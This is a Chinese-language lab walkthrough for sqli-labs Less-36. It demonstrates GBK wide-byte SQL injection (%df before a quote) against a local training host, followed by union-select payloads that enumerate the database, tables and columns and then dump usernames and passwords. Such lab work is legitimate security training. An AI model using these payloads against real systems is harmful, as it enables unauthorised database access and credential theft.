

# Less - 36

---

# 通关教程

---

## 1、判断闭合

---

```http
http://192.168.23.128/sqli-labs/Less-36/?id=1%27
```

​​

查看源代码看看这关是否使用了GBK编码

​​

确定使用了GBK编码，使用%df让单引号成功逃逸就可以了

```http
http://192.168.23.128/sqli-labs/Less-36/?id=1%df'
```

​​

通过错误信息判断闭合方式为'--+，并且为字符型注入

---

## 2、查看当前数据库名

---

```http
http://192.168.23.128/sqli-labs/Less-36/?id=-1%df' union select 1,2,database()--+           
```

​​

---

## 3、查看security库下的所有表

---

```http
http://192.168.23.128/sqli-labs/Less-36/?id=-1%df' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database())--+
```

​​

---

## 4、查看users表下的所有字段

---

```http
http://192.168.23.128/sqli-labs/Less-36/?id=-1%df' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name=0x7573657273)--+
```

​​

---

## 5、查看username,password字段下的所有值

---

```http
http://192.168.23.128/sqli-labs/Less-36/?id=-1%df' union select 1,2,(select group_concat(username,password) from security.users)--+
```

​​

‍
